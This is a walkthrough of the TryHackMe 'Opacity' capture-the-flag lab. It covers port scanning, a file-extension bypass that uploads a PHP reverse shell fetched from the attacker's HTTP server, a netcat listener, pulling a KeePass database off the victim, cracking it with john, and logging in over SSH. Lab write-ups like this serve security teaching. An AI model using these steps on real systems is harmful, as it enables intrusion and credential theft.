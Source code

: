 # Opacity | THM
### Difficulty Level: Easy
----------------------------------

First, use nmap scan to find out services and open ports that runs on the machine:

```bash
nmap -p- -T4 -A <machine-ip> -oN opacity.nmap
```

-p- Scans all ports instead of the 1000 common ports.

-T4 - Increases the tempo of the scan.

-A - Aggresive scan to gather more information about the system.

-oN - Saves the output into a file.

The results of the scan:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 16:01 EDT
Nmap scan report for 10.10.134.146
Host is up (0.069s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/14%OT=22%CT=1%CU=33642%PV=Y%DS=2%DC=T%G=Y%TM=65F3
OS:58A1%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=102%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=103%GCD=1%ISR=10E%TI
OS:=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M
OS:508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B
OS:3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%D
OS:F=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G
OS:)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-14T20:05:51
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.32 ms 10.9.0.1
2   74.44 ms 10.10.134.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 253.23 seconds
```

There are 4 open ports:

22 - SSH

80 - HTTP

139 - SMB

445 - SMB

Let's see if there any shares on smb server befor I'll try the machine address on the browser.
We can not get any helpful info.

So let's move into the browser and there is a login page:

![image](https://cdn-images-1.medium.com/max/1000/1*p8Orakd7YW4KAXtvtWPEcw.png)

While testing the web app, I started with directories scan with dirsearch: 

```bash
python3 dirsearch.py -u <machine-ip>
```

There is an intersting directory. */cloud*
Navigate there:

![image](https://cdn-images-1.medium.com/max/1000/1*ykpbEERdhg-i09w0aF8T1Q.png)


I tried to upload a reverse shell by using http server with python.

on your machine whithin the directory that rev shell file is located us this command:

```bash
python3 -m http.server
```
By default, this server uses port 8000.

Inside the external image input I use this:

http://<your-ip>:8000/php-reverse-shell.php

The behavior of the site did nothing and I didnt get any log that request was made. so I guess that the file didn't make it to 
the victim machine.

![image](https://cdn-images-1.medium.com/max/1000/1*HgbyvK_SLT1FMCd8DXsXwg.png)


So, maybe there is any validation otn the file extension that command
us to upload only jpg or png file.
so it's time to bypass this machanism with adding another extension to the file
with .php#.png .
so the rev shell file looks like php-reverse-shell.php#.png when you enter it on extenal URL.
By using "#00" sign, the web server interpreter it like php file but let us upload it as png file.
the server might treat the file as a PHP file, potentially executing PHP code, even though it's followed by .png, which could confuse the server or security measures.
Give it a try:

![image](https://cdn-images-1.medium.com/max/1000/1*WiL92ECdp465DleyRQwNTw.png)

After it has been uploaded, do the same but now, set a netcat listener with the port 
that you set on the script.

```bash
nc -lnvp 2222
```

After it has been completed you'll get the reverse shell.

![image](https://cdn-images-1.medium.com/max/1000/1*plOKVBhFVFXjnZGiN68wKw.png)

stabilize it with:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

While enumaration process I found .kdbx file within /opt directory.

A KDBX file is a database file format used by password managers, particularly KeePass and its derivatives like KeePassXC.

Let's grab it to our machine with open http server on another port on the victim machine:

```bash
python3 -m http.server 2000
```

Grab the file on your machine with:

wget http://10.10.87.30:2000/dataset.kdbx

![image](https://cdn-images-1.medium.com/max/1000/1*2PRqxPLYzYME7Qqwoz8G4A.png)

I tried to open the file but without any success. google will help me. 
to open keepass file you need to use kpcli so download it with.

```bash
sudo apt install kpcli
```

Open it with kpcli, but you have to provide masterpassword to open it.

```
Type "help <command>" for more detailed help on a command.
kpcli:/> open dataset.kdbx
Provide the master password:
```

keepass2john will help me to provide format that john the ripper can work it (hash).
The next step will be using dictionary attack.

Use this command:

```bash
keepass2john dataset.kdbx > john.txt
```
and for the next step:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

![image](https://cdn-images-1.medium.com/max/1000/1*UIhtZOnQm_GVoUlBHwn8wQ.png)


Now, after getting the password we can open the keepass file and 
there is a username and a password.

![image](https://cdn-images-1.medium.com/max/1000/1*97lNYqbZ14fDwNu9nImvDg.png)

remember that there is ssh service open on that machine so try to 
connect it with the new credentials within the keepass file.

```bash
ssh sysadmin@10.10.87.30
```

enter the password and we are in.
grab local.txt flag.

![image](https://cdn-images-1.medium.com/max/1000/1*0vNNZS4TzOanPZkEHrOdQA.png)


























































